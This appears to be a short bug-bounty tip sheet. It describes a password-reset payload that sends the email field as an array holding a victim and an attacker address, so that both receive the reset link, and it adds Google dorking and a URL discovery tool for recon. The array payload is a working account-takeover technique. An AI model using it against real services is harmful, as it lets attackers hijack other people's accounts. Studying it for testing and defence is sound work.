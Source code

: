 Password reset via email
```shell
If the request to reset the password via email sends data like this
{
	"email":"victim@mail.com"
}

You can try making a list of emails as payload
{
	"email":[
	"victim@mail.com",
	"attacker@mail.com"
	]
}

This way both emails can recieve the password reset mail.
```

If you run into 404 pages you can try google dorking to find some paths.
```
google: "target.com" # uses exact words in searching
```

And for more discovery try `getallurls`
